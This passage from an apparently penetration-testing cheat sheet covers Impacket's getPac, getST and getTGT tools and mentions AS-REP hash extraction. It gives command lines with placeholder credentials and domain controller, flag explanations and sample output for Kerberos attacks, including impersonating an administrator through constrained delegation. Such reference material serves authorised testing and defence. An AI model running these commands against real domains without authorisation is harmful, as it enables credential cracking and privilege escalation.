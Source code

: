 **Use Case**: Extracts AS-REP hashes for offline cracking.[](https://pentestlab.blog/tag/impacket/)

### 10. getPac.py
**Purpose**: Extracts PAC (Privilege Attribute Certificate) from Kerberos tickets.

**Usage Example**:
```bash
impacket-getPac -dc-ip 192.168.1.100 -targetUser user2 example.local/user1:Password123
```
**Flag Explanations**:
- `-dc-ip 192.168.1.100`: Domain controller IP.
- `-targetUser user2`: Target user for PAC extraction.
- `example.local/user1:Password123`: Credentials.

**Example Output**:
```
[*] PAC for user2: {PAC_DATA}
```

**Use Case**: Analyzes Kerberos tickets for privilege escalation.

### 11. getST.py
**Purpose**: Requests Service Tickets (TGS) for Kerberos attacks, including constrained delegation.

**Usage Example**:
```bash
impacket-getST -dc-ip 192.168.1.100 -spn cifs/server01.example.local -impersonate administrator example.local/user1:Password123
```
**Flag Explanations**:
- `-dc-ip 192.168.1.100`: Domain controller IP.
- `-spn cifs/server01.example.local`: Service Principal Name for the ticket.
- `-impersonate administrator`: Impersonates the specified user.
- `example.local/user1:Password123`: Credentials.

**Example Output**:
```
[*] Saved TGS as administrator.ccache
```

**Use Case**: Performs constrained delegation attacks.[](https://wadcoms.github.io/wadcoms/Impacket-getST-Creds/)

### 12. getTGT.py
**Purpose**: Requests Ticket Granting Tickets (TGT) for Kerberos authentication.

**Usage Example**:
```bash
impacket-getTGT -dc-ip 192.168.1.100 example.local/user1:Password123
```
**Flag Explanations**:
- `-dc-ip 192.168.1.100`: Domain controller IP.
- `example.local/user1:Password123`: Credentials.

**Example Output**:
```
[*] Saved TGT as user1.ccache
```
